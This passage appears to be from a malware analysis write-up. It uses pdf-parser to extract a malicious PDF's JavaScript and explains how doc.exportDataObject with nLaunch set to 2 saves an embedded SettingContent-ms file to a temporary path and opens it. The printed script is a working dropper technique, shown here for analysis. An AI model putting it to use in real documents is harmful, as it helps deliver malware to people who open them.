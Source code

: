 
### Javascript

If we add `--raw` and `--filter` to the dump, we can see the full javascript.
We’ll run `pdf-parser
576a373ccb9b62c3c934abfe1573a87759a2bfe266477155e0e59f336cc28ab4 --object 3
--raw --filter` to get:

    
    
    function function11(){
    var functionDataMass = {};functionDataMass['nLaunch'] = 2;
    
    functionDataMass['cName'] = 'downl.SettingContent-ms';
    
    functionDataMass['r2'] = 'exportDataObject';
    this[functionDataMass['r2']](functionDataMass);}
    

#### Javascript doc.exportDataObject

A file inside a PDF is known as a “Data Object”. There’s a function
`doc.exportDataObject` that can be used to write a file to disk and
potentially open it. One reference for Data Objects in PDFs can be found
[here](https://acrobatusers.com/tutorials/importing-and-exporting-pdf-file-
attachments-acrobat-javascript).

According to the [Adobe Javascript
Spec](https://www.adobe.com/content/dam/acom/en/devnet/acrobat/pdfs/Acro6JS.pdf),
the `exportDataObject` functions takes a up to four parameters:

  * cName - The name of the object to extract
  * cDIPath (optional) - Path to extract the data, but no longer supported as of version 6.
  * bAllowAuth (optional) - If true, will prompt user for Authorization. Default is false.
  * nLaunch (optional) - Controls if the file is launched (opened) after saving.   
0 - Save, don’t launch.  
1 - Save and launch. Prompt user for path to save.  
2 - Save and launch. Save to temporary path.

#### File Export in this Document

With that in mind, let’s review the script above. This is pretty simple,
unobfuscated javacsript. It creates a dictionary object in the first three
lines, which will look like this:

    
    
    { 'r2': 'exportDataObject', 'nLaunch': 2, 'cname': 'downl.SettingContent-ms' }
    

Then it calls `this[functionDataMass['r2']](functionDataMass);`, which is
practically simplifies to `this.exportDataObject({'nLaunch': 2, 'cname':
'downl.SettingContent-ms'})` . That will save the file `downl.SettingContent-
ms` to temporary space, and then open it. It will pop a prompt asking the user
if they want to do this, but if they do, the file will open.

## Embedded File
